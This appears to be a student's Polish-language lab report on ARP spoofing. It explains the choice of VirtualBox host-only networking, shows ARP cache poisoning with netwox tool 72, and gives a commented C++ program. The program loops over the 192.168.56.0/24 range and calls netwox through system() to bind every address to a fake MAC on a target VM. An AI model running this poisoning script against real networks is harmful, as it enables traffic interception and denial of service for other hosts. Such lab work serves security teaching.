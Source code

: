 ## LABORATORIUM NR 9.

### PODSTAWOWE ATAKI NA PROTOKÓŁ ICMP

#### Zadanie 9.1. Określenie trybów sieciowych Virtualbox

9P1: Należy wybrać odpowiedni tryb sieciowy Virtualbox dla struktury sieciowej, niezbędnej do wykonania ćwiczenia. Wybór ten należy uzasadnić. W sprawozdaniu proszę umieścić rysunek przedstawiający opracowaną konfigurację z zaznaczonymi adresami dla interfejsów i ustawionymi trybami sieciowymi.

Należy wybrać tryb host-only. Atak typu ARP spoofing może być przeprowadzony tylko w obrębie jednego segmentu sieci. Dzieje się tak dlatego, że ARP cache jest przesyłane tylko pomiędzy węzłami jednej sieci, nigdy nie jest routowane do innych sieci (operuje w warstwie link-layer). Potrzebna będzie nam więc sieć złożona z hosta i dwóch gości (będących w tym samym segmencie sieci), w której będziemy mogli osiągnąć połączenie zarówno pomiędzy gośćmi, jak i z hostem. Przykładowo atak w sieci NAT mógłby nie zakończyć się powodzeniem, ponieważ maszyny wirtualne znajdowałyby się w innych segmentach sieci, a więc przesył ARP cache nie byłby między nimi możliwy, co uniemożliwiłoby atak typu ARP spoofing.

Szkic przedstawiający utworzoną konfigurację:

![konfiguracja](md/BSI/lab/lab9/src/utworzona_konfiguracja.png)

instrukcja dla konfiguracji:

[https://condor.depaul.edu/glancast/443class/docs/vbox_host-only_setup.html](https://condor.depaul.edu/glancast/443class/docs/vbox_host-only_setup.html)

Zadanie 9.2. Modyfikacja ARP cache

9P2: Proszę „zatruć” pamięć podręczną ARP na maszynie vhost2 poprzez wygenerowanie odpowiedniego komunikatu za pomocą narzędzia 72 i wysłanie go z maszyny wirtualnej vhost1. W sprawozdaniu proszę przedstawić przyjęte ustawienia narzędzia 72 z pakietu Netwax/Netwag oraz dowód, że zawartość pamięci podręcznej ARP na maszynie vhost 2 zmieniła się zgodnie z oczekiwaniami.

Ustawienia narzędzia 72 z pakietu Netwag na vhost1:

![](md/BSI/lab/lab9/src/netwag_vhost1.png)

Wynik “zatrucia” pamięci ARP na vhost2:

![](md/BSI/lab/lab9/src/arp_vhost2.png)

Jak widzimy na powyższym zrzucie ekranu - do pamięci ARP vhost2 (atakowanego) został dodany wpis kojarzący podany na vhost1 (atakujący) adres IP z podanym adresem MAC. Spowoduje to, że vhost2 chcąc połączyć się z podanym adresem (adresem bramy domyślnej), będzie przesyłać pakiety na nieprawidłowy (podany przez atakującego) adres fizyczny. Może to umożliwiać atakującemu przechwytywanie danych przeznaczonych dla innych hostów (jeśli poda swój adres fizyczny).

9P3: Proszę na podstawie przedstawionego wyżej, przykładowego kodu, napisać i uruchomić na vhost 1 program, który „zatruje” ARP cache na vhost2 poprzez umieszczenie w niej powiązań wszystkich możliwych adresów IP wykorzystywanych w domenie rozgłoszeniowej z dowolnymi, fikcyjnymi adresami MAC. W sprawozdaniu proszę umieścić opracowany kod programu z komentarzami co wykonywane jest w poszczególnych liniach kodu oraz dowód, że atak przeprowadzony w oparciu o ten program, zakończył się sukcesem.

Kod programu:

```cpp
#include <stdlib.h>
#include <stdio.h>
using namespace std;
int main()
{
    char add[50];
    char ethadd[50];
    char arppoison[1000];
    
    for (int i=1; i<255; i++)
    //pętla przebiega 254 razy - dla każdego możliwego adresu
    //IP, oprócz adresu rozgłoszeniowego (.255) i adresu sieci (.0)
    {
        sprintf(add,"192.168.56.%d",i);
        //przechowywanie w pamięci (tablica add)
        //kolejnych możliwych adresów wykorzystywanych 
        //w domenie rozgłoszeniowej
        
        sprintf(ethadd,"%x:%x:%x:%x:%x:%x",i,i,i,i,i,i);
        //przechowywanie w pamięci (tablica ethadd) 
        //kolejnych fikcyjnych adresów MAC
        
        sprintf(arppoison,"netwox 72 --ips \"192.168.56.3\" 
        --device \"Eth0\" --src-eth %s --src-ip %s",ethadd,add);
        //utworzenie polecenia używającego narzędzia 
        //nr 72 pakietu netwox, odnośnie adresu 
        //vhost2 (192.168.56.3), interfejsu eth0, 
        //tworzącego powaiązanie fikcyjnego adresu MAC 
        //(pobranego z tablicy ethadd) z danym 
        //adresem IP (pobranym z tablicy add)
        
        system(arppoison);
        //wykonanie polecenia
    }
    return 0;
}
```

Wynik wykonania skryptu na vhost1:

![](md/BSI/lab/lab9/src/cpp_vhost1.png)

Wynik działania skryptu na vhost2 (polecenie arp -nv):

![](md/BSI/lab/lab9/src/cpp_vhost2.png)

Na podstawie pamięci ARP vhost2 widzimy, że atak zakończył się sukcesem - do tablicy dodano powiązania wszystkich adresów IP (oprócz rozgłoszeniowego i sieci) w sieci 192.168.56.0 z wygenerowanymi kolejno adresami MAC.
